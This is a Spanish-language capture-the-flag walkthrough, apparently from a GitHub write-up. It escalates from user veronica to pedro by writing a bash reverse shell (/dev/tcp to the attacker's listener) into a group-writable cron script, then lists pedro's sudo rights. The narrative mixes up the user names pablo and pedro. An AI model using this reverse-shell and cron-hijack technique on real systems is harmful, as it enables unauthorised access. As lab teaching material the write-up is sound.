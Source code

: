 LIstando las teras **cron** vemos que ese mismo script se esta ejecutando como el usuario **pablo**
```bash
cat /etc/crontab 

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
* * * * * pedro /home/veronica/.local/script-h.sh > /tmp/hora/hora.log 2>&1
```

Aun que no nos pertenece el script, pertemenecemos al grupo **taller**, Asi que podemos aprovecharnos, ya que para el grupo **taller** tiene capacidad de **escritura**, eso es una via potencial de escalar al usuario pedro
```bash
id
uid=1001(veronica) gid=1001(veronica) groups=1001(veronica),100(users),1004(taller)
```

Sabiendo que podemos modificarlo, Primero nos pones en escucha en nuestra maquina de atacante:
```bash
nc -nlvp 443
```

Ahora le colamos esta instruccion:
```bash
nano script-h.sh

sh -i >& /dev/tcp/172.17.0.1/443 0>&1
```

Guardamos el archivo y ahora esperamos a recibir la sesion como el usuario **pedro**

###### Usuario `[ Pedro ]`:
Ahora que somo este usuario, listamos sus permisos
```bash
sudo -l

User pablo may run the following commands on ef4d59378e3a:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/nllns/clean_symlink.py *.jpg
```

Tenemos capacidad sobre imagenes, ahora tenemos que revisar que es lo que esta realizando el script en python
```bash
cat /opt/nllns/clean_symlink.py
```
